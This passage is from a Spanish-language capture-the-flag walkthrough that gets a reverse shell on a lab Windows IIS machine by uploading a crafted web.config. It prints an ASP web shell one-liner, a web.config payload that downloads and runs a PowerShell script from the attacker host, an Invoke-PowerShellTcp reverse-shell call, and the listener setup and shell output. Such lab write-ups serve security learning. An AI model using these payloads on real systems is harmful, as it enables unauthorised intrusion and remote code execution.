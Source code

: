 * Dentro del **.ps1**, vamos a agregar una línea que nos recomienda el mismo Payload al final:
```powershell
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress Tu_IP -Port 443
```

* Ahora vamos a cambiar el **web.config**, entrando al siguiente blog, encontraremos un oneliner que nos ayudara a cargar el Payload: <a href="https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html" target="_blank">Reverse Shells/ Web Shells Cheat sheet for Penetration Testing | OSCP</a>

* El oneliner será el de **ASP**, ya que ese indica el archivo:
```powershell
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

* Lo copiamos y sustituimos la operación que se hizo en el **web.config**. Así debería quedar:
```powershell
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set co = CreateObject("WScript.Shell")
Set cte = co.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://Tu_IP:80/Reverse_Shell.ps1')")
output = cte.StdOut.Readall()
Response.write(output)
%>
-->
```

Adentro de la función **co.Exec** pondremos el oneliner para cargar el Payload **.ps1**.

Ya tenemos todo listo, lo que sigue es cargar el **web.config** y abriremos un servidor en **Python** para cargar el Payload.

Vamos igual por pasos:

* Abre un servidor en **Python** en donde tengas el **.ps1**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Abre una **netcat**:
```bash
nc -nvlp 443   
listening on [any] 443 ...
```

* Carga el **web.config** y recarga la página web.

* Y ya deberíamos estar conectados:
```bash
nc -nvlp 443   
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```
